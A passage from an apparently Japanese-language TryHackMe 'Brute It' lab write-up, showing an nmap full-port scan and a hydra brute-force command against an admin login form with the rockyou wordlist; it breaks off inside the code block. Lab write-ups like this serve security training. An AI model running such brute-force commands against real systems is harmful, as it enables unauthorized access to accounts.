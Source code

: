 # TryHackMe - Brute It Writeup

## 🔍 情報収集
nmapを使ってポートスキャン。

```bash
nmap -p- MACHINE_IP
hydra -l admin -P rockyou.txt MACHINE_IP http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:invalid"
